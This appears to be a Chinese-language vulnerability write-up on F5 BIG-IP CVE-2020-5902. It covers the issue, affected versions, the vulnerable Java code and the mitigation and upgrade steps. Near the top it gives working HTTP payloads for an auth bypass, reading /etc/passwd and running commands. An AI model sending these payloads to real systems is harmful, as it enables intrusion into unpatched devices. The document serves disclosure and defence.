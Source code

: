 ## F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902） {docsify-ignore}

编辑：[@r4v3zn](https://github.com/0nise)

分析作者：[@Jas502n](https://github.com/jas502n)

### Payload

```
GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp 
GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse
```

![](cve-2020-5902/1.png)

任意文件读取

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

![](cve-2020-5902/2.png)

RCE：

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

执行命令：https://devcentral.f5.com/s/question/0D51T00006i7hq9/tmsh-command-to-list-all-users-in-all-partitions

![](cve-2020-5902/3.png)

### 概况

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。2020 年7 月 1日，F5 公布流量管理用户界面（TMUI），也称为配置实用程序，在未公开的页面中具有远程执行代码（RCE）漏洞，漏洞编号为 CVE-2020-5902。

攻击者可利用该漏洞执行任意的系统命令、创建或删除文件，关闭服务/执行任意的Java代码，可能完全入侵系统，对此漏洞 CVSS 评分 10 分。

### 影响版本

- BIG-IP = 15.1.0
- BIG-IP = 15.0.0
- BIG-IP 14.1.0 - 14.1.2
- BIG-IP 13.1.0 - 13.1.3
- BIG-IP 12.1.0 - 12.1.5
- BIG-IP 11.6.1 - 11.6.5

### 分析过程

漏洞点：

```java
JSONObject resultObject = WorkspaceUtils.runTmshCommand(cmd, request);
```

```java
/usr/local/www/tmui/WEB-INF/lib/tmui.jar/com.f5.tmui.locallb.handler.workspace.WorkspaceUtils#runTmshCommand
```

```java
public static JSONObject runTmshCommand(String command, HttpServletRequest request) {
    F5Logger logger = (F5Logger)F5Logger.getLogger(WorkspaceUtils.class);
    JSONObject resultObject = new JSONObject();
    String output = "";
    String error = "";
    if (!csrfValidated(request.getHeader("_bufvalue"), request.getHeader("_timenow"), request.getHeader("Tmui-Dubbuf"))) {
      logger.warn("Invalid user token - token provided by user is not authorized");
      resultObject.put("output", output);
      resultObject.put("error", NLSEngine.getString("ilx.workspace.error.InvalidUserToken"));
      return resultObject;
    } 
    if ("POST".equalsIgnoreCase(request.getMethod())) {
      String[] cmdArray = command.split(" ");
      String operation = cmdArray[0];
      String module = cmdArray[2];
      if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
        try {
          String[] args = { command };
          Syscall.Result result = Syscall.callElevated(Syscall.TMSH, args);
          output = result.getOutput();
          error = result.getError();
        } catch (com.f5.tmui.util.Syscall.CallException e) {
          logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + e.getMessage());
          error = e.getMessage();
        } 
      } else {
        error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
      } 
    } else {
      error = NLSEngine.getString("ilx.workspace.error.InvalidMethod");
    } 
    resultObject.put("output", output);
    resultObject.put("error", error);
    return resultObject;
}
```

### 靶场

无

### 修复

1. 登陆 TMOS Shell（**tmsh**）执行：

`tmsh`

2. 修改 httpd 配置信息：

```
edit /sys httpd all-properties
```

3. 找到`include` 部分并添加以下内容：

```
include '
<LocationMatch ".*\.\.;.*">
Redirect 404 /
</LocationMatch>
'
```

4. 通过输入以下命令，将更改写入并保存到配置文件中：

```
Esc
:wq!
```

5. 通过输入以下命令来保存配置：

```
save /sys config
```

6. 通过输入以下命令来重新启动**httpd**服务：

```
restart sys service httpd
```

也可以通过升级的方式来进行修复：

- BIG-IP 15.x 升级至 15.1.0.4

- BIG-IP 14.x 升级至 14.1.2.6
- BIG-IP 13.x 升级至 13.1.3.4
- BIG-IP 12.x 升级至 12.1.5.2
- BIG-IP 11.x 升级至 11.6.5.2

### 分析文章

- [CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)

### 参考

- https://twitter.com/Nep_1337_1998/status/1279610946864820225
- https://github.com/jas502n/CVE-2020-5902